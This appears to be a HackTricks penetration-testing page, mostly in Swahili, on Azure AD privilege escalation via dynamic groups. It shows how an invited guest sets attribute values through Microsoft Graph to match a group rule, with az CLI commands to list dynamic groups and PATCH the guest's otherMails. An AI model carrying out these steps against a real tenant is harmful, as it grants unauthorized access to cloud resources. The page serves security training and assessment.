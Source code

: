 # Az - Dynamic Groups Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**Dynamic groups** ni vikundi ambavyo vina seti ya **rules** zilizowekwa na watumiaji wote au **devices** wanaolingana na sheria hizo wanaongezwa kwenye kundi. Kila wakati **attribute** ya mtumiaji au kifaa inapo **badilishwa**, sheria za dynamic zinarejelewa. Na wakati **sheria mpya** inapo **undwa**, vifaa vyote na watumiaji vinakaguliwa.

Vikundi vya dynamic vinaweza kuwa na **Azure RBAC roles** zilizotolewa kwao, lakini **haiwezekani** kuongeza **AzureAD roles** kwenye vikundi vya dynamic.

Kipengele hiki kinahitaji leseni ya Azure AD premium P1.

## Privesc

Kumbuka kwamba kwa default mtumiaji yeyote anaweza kuwalika wageni katika Azure AD, hivyo, ikiwa sheria ya kundi la dynamic inatoa **permissions** kwa watumiaji kulingana na **attributes** ambazo zinaweza **kuwekwa** kwa **mgeni** mpya, inawezekana **kuunda mgeni** mwenye attributes hizi na **kuinua mamlaka**. Pia inawezekana kwa mgeni kusimamia wasifu wake mwenyewe na kubadilisha attributes hizi.

Pata vikundi vinavyoruhusu Uanachama wa Dynamic: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

- **Rule example**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **Rule description**: Mtumiaji yeyote wa Mgeni mwenye barua pepe ya pili yenye maandiko 'security' ataongezwa kwenye kundi

Kwa barua pepe ya mtumiaji wa Mgeni, kubali mwaliko na angalia mipangilio ya **mtumiaji huyo** katika [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Kwa bahati mbaya, ukurasa haukuruhusu kubadilisha thamani za attribute hivyo tunahitaji kutumia API:
```bash
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
## Marejeleo

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}

